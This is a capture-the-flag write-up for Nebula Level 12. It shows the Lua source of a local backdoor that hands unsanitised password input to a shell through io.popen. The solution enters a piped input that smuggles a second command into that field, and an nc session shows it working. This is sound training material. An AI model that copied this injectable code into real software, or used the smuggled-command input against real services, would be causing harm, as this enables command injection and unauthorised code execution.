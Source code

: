 # Nebula - Level 12

### About ###

>There is a backdoor process listening on port 50001.
>
>To do this level, log in as the level12 account with the password level12 . Files for this level can be found in /home/flag12.

### Source code ###

```perl
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password) 
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```

### Solution ###

This challenge is a simple code injection in lua, because the password input is not sanitized.

After connecting to the backdoor on port 50001, the string `hello|getflag>/tmp/flag12` is entered which successfully executes `getflag`.

```
level12@nebula:/home/flag12$ nc localhost 50001
Password: hello|getflag>/tmp/flag12
Better luck next time
level12@nebula:/home/flag12$ cat /tmp/flag12
You have successfully executed getflag on a target account
```
